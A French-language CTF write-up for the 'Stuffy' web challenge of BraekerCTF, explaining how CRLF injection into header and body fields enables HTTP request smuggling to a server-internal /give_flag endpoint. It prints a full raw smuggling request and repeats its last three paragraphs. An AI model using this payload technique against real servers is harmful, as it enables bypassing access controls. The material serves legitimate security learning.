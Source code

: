 ```yaml
---
layout: post
author: BRO
title: "Stuffy - BraekerCTF"
date: 2024-06-24
categories: [CTF, Web]
background_image: assets/stuffy.jpg
title_color: "#ffffff"
---
```



Commençons par lire le code qui nous est fourni. On peut voir directement une faille SQL.
![](/assets/posts/Stuffy/stuffy1.png)
Seulement, nous n'avons pas la main sur le username. Il est choisi à partir du fichier `usenames.txt` fourni qui est une liste de username aléatoires + 4 chars aléatoires.
![](/assets/posts/Stuffy/stuffy2.png)

La SQLi est donc pas la bonne piste.

Parmis toutes les routes on peut apercevoir l'endpoint  `/give_flag`
![](/assets/posts/Stuffy/stuffy3.png)
Cette fonction update la valeur du "stuff" avec la valeur de flag pour un user à partir du moment ou la requête vient du serveur lui-même.
On peut essayer de rajouter le Headers à la main mais ça ne marchera pas car c'est le proxy nginx qui modifie les headers.
Il faudrait donc trouver une fonction qui fait une requête et la rediriger vers `/give_flag`.
Ça tombe bien `/set_stuff` fait une requête vers `/update_profile_internal`.

![](/assets/posts/Stuffy/stuffy4.png)
Set_stuff récupère dans un premier temps notre username grâce aux cookies et vérifie que cet user existe bien.
Il récupère ensuite la variable de stuff de la requête et vérifie que la longueur est inférieure à 200.
Les variables special_type, special_val sont de la même façon récupérées puis nétoyées avec les fonction `security_filter`.
Les variables special_type et special_val deviennent des Headers et stuff est une partie du body

Nous avons donc la main sur trois variables stuff, special_val et special_type.
La piste la plus probable est une request smuggling. Essayons.
```
POST /set_stuff HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 228
Origin: http://localhost:3000
DNT: 1
Connection: close
Referer: http://localhost:3000/
Cookie: username=love1987OBCj
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-PwnFox-Color: blue

special_type=Content-Length&special_val=80&stuff=aaaaaab%0d%0a%0d%0aPOST /give_flag HTTP/1.1%0d%0aHost: 127.0.0.1:3000%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0aContent-Length: 21%0d%0a%0d%0ausername=love1987OBCj
```

Ici, special_type et special_val forment un header qui va renseigner la première requête (la fin de aaaaaab) = Content-length: 80.
Comment trouve-t-on ce nombre ?
 ![](/assets/posts/Stuffy/stuffy5.png)
Il suffit de trouver la taille de cette string.
![](/assets/posts/Stuffy/stuffy6.png)
Il suffit ensuite de créer la deuxième requête. Puis de rafraîchir la page et nous aurons le flag dans notre stuff.
![](/assets/posts/Stuffy/stuffy7.png)


Ici, special_type et special_val forment un header qui va renseigner la première requête (la fin de aaaaaab) = Content-length: 80. Comment trouve-t-on ce nombre ?

Il suffit de trouver la taille de cette string.

Il suffit ensuite de créer la deuxième requête. Puis de rafraîchir la page et nous aurons le flag dans notre stuff.
